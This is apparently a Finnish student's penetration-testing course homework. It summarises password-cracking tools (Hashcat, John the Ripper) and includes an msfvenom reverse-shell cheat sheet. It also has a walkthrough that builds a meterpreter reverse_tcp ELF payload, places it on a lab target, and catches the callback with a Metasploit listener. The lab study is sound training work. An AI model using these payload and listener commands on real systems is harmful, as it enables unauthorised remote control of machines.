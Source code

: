 # h4 Marraskuu2024!

## x) Lue/katso ja tiivistä.

### Karvinen 2022: Cracking Passwords with Hashcat

https://terokarvinen.com/2022/cracking-passwords-with-hashcat/

- Hashid: voidaan yrittää määritellä minkä tyyppinen hash kyseessä. **-m** parametri kertoo lisäksi numeron, jota käytetään salasanan murtamisessa.
-  Hashcat: Varsinanen työkalu, jolle annetaan edellisen kohdan **-m nro**, tutkittava hash, sanakirja jota käytetään(, **-o solved** tuloksen tallentamiseen).
-  Status voi olla **Cracked** eli onnistunut tai **Exhausted** eli sanalista käytiin loppuun ilman osumia.

### Karvinen 2023: Crack File Password With John

https://terokarvinen.com/2023/crack-file-password-with-john/

- Sanakirjahyökkäystyökalu
- Voidaan käyttää useiden eri formaattien salasanojen murtamiseen.

## € Santos et al 2017: Security Penetration Testing

https://www.oreilly.com/videos/security-penetration-testing/9780134833989/9780134833989-sptt_00_06_00_00/

- Käyttäjätunnukset tallennetaan tietokantaan tai tekstitiedostoon
- Salasanoja täytyy suojata tallennuksen  että siirron ajan.
- Oletussalasanat eri laitteissa ja ihmisillä
- Hotspot sniffing
- Brute force työkalut: Medusa, THC-Hydra, Brutus. Metasploit, Dirbuster, wfuzz
- Kaksi samaa salasanaa Windowsissa näyttää saman hashin, Linuxissa salasanaan lisätään satunnainen merkkijono (salt) ennen sen hashausta
- Salasanavuodot, rainbow table
- Hash ei yksinään riitä, käytä saltia hashissa, pitkät salasana, sertifikaattiperusteinen tunnistautuminen, monivaiheinen tunnistautuminen

The Art of Hacking Series LiveLessons: Lesson 6: Hacking User Credentials 

## Polop et al 2024: HackTricks

https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/msfvenom

MSFVenom - CheatSheet (Katso kokonaisuus, poimi itsellesi komento tai pari, joita voisit käyttää)


msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf

msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf

## a) Asenna Hashcat ja testaa sen toiminta murtamalla esimerkkisalasana.

Olin asentanyt Hashcatin jo Information Security kurssin tehtävässä 6a.

https://github.com/anha2/Information-Security/blob/main/h6.md

## c) Asenna John the Ripper ja testaa sen toiminta murtamalla jonkin esimerkkitiedoston salasana.

Olin asentanyt John the Ripperin jo Information Security kurssin tehtävässä 6m. Samassa dokumentissa myös zip ja pdf salasanojen murtaminen (6n ja 6o).

https://github.com/anha2/Information-Security/blob/main/h6.md

## d) Fuffme. Asenna Ffufme harjoitusmaali paikallisesti omalle koneellesi. Ratkaise tehtävät (kaikki paitsi ei "Content Discovery - Pipes")

Tein tämän jo edellisen viikon vapaaehtoisessa harjoituksessa kohdassa f.

https://github.com/anha2/Tunkeutumistestaus/blob/main/h3.md

## e) Tiedosto. Tee itse tai etsi verkosta jokin salakirjoitettu tiedosto, jonka saat auki. Murra sen salaus. 

(Jokin muu formaatti kuin aiemmissa alakohdissa kokeilemasi).

## f) Tiiviste. 

Tee itse tai etsi verkosta salasanan tiiviste, jonka saat auki. Murra sen salaus. (Jokin muu formaatti kuin aiemmissa alakohdissa kokeilemasi. Voit esim. tehdä käyttäjän Linuxiin ja murtaa sen salasanan.)
   
## g) Tee msfvenom-työkalulla haittaohjelma, joka soittaa kotiin (reverse shell). 

Käytin 101.labsin ohjetta tämän tekemiseen:
https://www.101labs.net/comptia-security/lab-75-establishing-a-reverse-shell-on-a-linux-target-using-msfvenom-and-metasploit/

Aloitin luomalla payloadin Kalilla:

    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.250.6 LPORT=5555 -f elf -o reverse-sh.elf

Tässä 192.168.250.6 ja portti 5555 kertovat hyökkäävän koneen ip:n ja portin.

![1](https://github.com/user-attachments/assets/191be1ae-efe7-482c-a8fb-458e7ccb4cfd)

Seuraavaksi katsottin filella tiedoston muoto ja mahdolliset metatiedot.

![2](https://github.com/user-attachments/assets/97341f74-1469-45c6-baa7-e8acb0ee4d0f)

ELF (Executable and Linkable Format) on yleinen suoritettavien tiedostojen muoto Linux-järjestelmissä.

Tämän jälkeen viedään payload tiedosto kohdekoneelle. Testasin tämän ftp:llä ja src:llä. Molemmissa oletettiin, että tunnus ja salasana oli saatu selville. Src:ssä lisäksi piti valita vanhanmallinen kirjautuminen ssh-rsa-avaimella.

![3](https://github.com/user-attachments/assets/905b9287-2791-4f5d-9099-471bbcd8b776)

![4](https://github.com/user-attachments/assets/587e9272-caa1-4f23-89f1-98739b320b19)

Tämän jälkeen otettiin ssh-yhteys kohteeseen. Tässkin piti käyttää vanhanmallista avainta.

![5](https://github.com/user-attachments/assets/24306762-cdf3-4579-9192-4adff6b376dd)

Yhteyden muodostamisen jälkeen muutettiin aiemmin tuodun tiedoston ajo-oikeudet sekä ajettiin se. Jätetään ssh auki ja siirytään toiseen terminaaliin käyttämään msfconsolea.

![6](https://github.com/user-attachments/assets/c169dd37-57ee-48d0-b499-64eb905ce3b3)

Haluamme käyttää kuuntelijaa, joten annamme komennon sekä lisämäärittelyt

    use exploit/multi/handler
    set lhost 192.168.250.6
    set lport 5555
    set payload linux/x86/meterpreter/reverse_tcp

Tämän jälkeen palataan toiseen terminaaliin ja ssh:n kautta käynnistetään sinne uitettu ohjelma.

![7](https://github.com/user-attachments/assets/02273371-44ed-4038-9889-deeaa083aacb)

Toisessa terminaalissa päivittyi ruutu ja meterpreter tuli näkyviin.

![8](https://github.com/user-attachments/assets/44cceebb-686b-42dd-9233-0e3496fac6a9)


## h) Vapaaehtoinen: Asenna Windows-virtuaalikone ja tee msfvenomilla ohjelma siihen. 

Itse tykkään Linuxista ja käytän paljon sitä, tässä hieman vaihtelua. Windows-käyttäjät ovat myös usein tottuneet (paketinhallinnan puutteessa) lataamaan ohjelmia weppisivuilta.
